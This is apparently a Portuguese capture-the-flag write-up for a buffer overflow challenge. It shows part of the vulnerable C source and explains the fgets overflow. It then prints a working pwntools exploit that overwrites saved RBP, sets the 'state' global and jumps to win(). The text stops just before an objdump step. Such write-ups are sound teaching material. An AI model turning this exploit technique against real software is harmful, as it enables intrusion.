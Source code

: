 ``` chall.c
    char local_buf[0x20];
    puts("Hey there, I'm deaddead. Who are you?");
    fgets(local_buf, 0x30, stdin);
}

int main(){

    state = 0xdeaddead;
    strcpy(errorMsg, "Couldn't read flag file. Either create a test flag.txt locally and try connecting to the server to run instead.");

    setbuf(stdin, 0);
	setbuf(stdout, 0);

    vuln();
    
    return 0;
}   
```
Note o momento que o stack buffer overflow ocorre: 
`fgets(local_buf, 0x30, stdin);`, estourando o limite de `local_buf[0x20]`.

Algumas considerações:
- A variável global '*state*' precisa ser sobrescrita para '*0xf1eeee2d*'
- A variável global '*buf*' será utilizada para guardar o valor de RBP
- Devido ao limite imposto por '*fgets*', payload pode ter no máximo 48 bytes (o que impede de fazer um ROP visto que só dá para redirecionar para um endereço).
- Além de usar algum *gadget* para alterar a variável global '*state*', também é necessário saltar para '*win()*' de alguma maneira, como fazer isso se praticamente só é possível pular para um endereço?
- Precisaremos de algum jeito de retornar a execução para *vuln()* para poder enviar mais *input* para o binário e realizar um salto no programa.

Obtivemos a flag com o seguinte exploit:
``` exploit.py 
from pwn import *
exe = ELF('./chall')
context.terminal = ["alacritty", "-e", "bash", "-c"]
#r = gdb.debug(['./chall'], gdbscript='''
#tbreak *0x4012EA
#continue
#''')
r = remote('chall.lac.tf', 31593)
r.send(32*b'A'+p64(exe.symbols['state']+0x20)+p64(0x4012D0)[:-1])
r.send(p32(0xF1EEEE2D)+(32-4)*b'A'+p64(exe.symbols['buf']+0x500)+p64(exe.symbols['win'])[:-1])
r.interactive()
```

`r.send(32*b'A'+p64(exe.symbols['state']+0x20)+p64(0x4012D0)[:-1])` 
No primeiro '*send*' o buffer é preenchido com 32 caracteres + (o endereço da variável state + 0x20) + o endereço cujo o programa irá saltar: (0x4012d0). 
O endereço da variável state somado a 0x20 acaba substituindo  o conteúdo de RBP.
Vamos analisar por que esse endereço é importante procurando por esse endereço após executar um `objdump -M intel -d ./chall`:
